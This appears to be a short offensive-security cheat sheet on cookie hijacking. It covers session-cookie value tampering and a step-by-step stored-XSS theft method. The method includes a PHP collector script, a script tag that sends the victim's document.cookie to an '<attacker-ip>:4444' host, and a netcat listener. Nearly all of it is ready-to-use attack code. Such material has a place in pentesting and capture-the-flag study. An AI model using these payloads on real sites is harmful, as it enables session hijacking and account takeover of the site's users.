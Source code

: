 ```yaml
---
title: Cookie Hijacking
desc: A methodology of manipulating, grabbing cookies.
tags: [Burp, Cookie, Netcat, Web]
alts: [XSS]
render_with_liquid: false
---
```


## 1. Cookie Manipulation

```html
Cookie: PHPSESSID=0
Cookie: PHPSESSID=1
Cookie: PHPSESSID=999

<!-- ASCII Hex -->
Cookie: PHPSESSID=3836382d61646d696e
```

<br />

## 2. PHP Cookie Grabbing with XSS

1. **Create the Payload for Grabbing the Cookie when the Other UserS will Access Your Machine.**

    In your local machine, create the payload to get the other cookie values.

    ```php
    // steal_cookie.php

    <?php echo $_GET['cookie']; ?>
    ```

2. **Create the JavaScript Code to Force Users to Access Your Machine which Shows the Victim's Cookie Value.**

    ```javascript
    <script>document.location = 'http://<attacker-ip>:4444/steal_cookie.php?cookie='+document.cookie</script>
    ```

3. **POST Request with This JavaScript Code to the Target Web Page.**

4. **Open Listner in Your Local Machine and Wait for the Other Users will Access the Target Web Page.**

    ```sh
    nc -lvnp 4444
    ```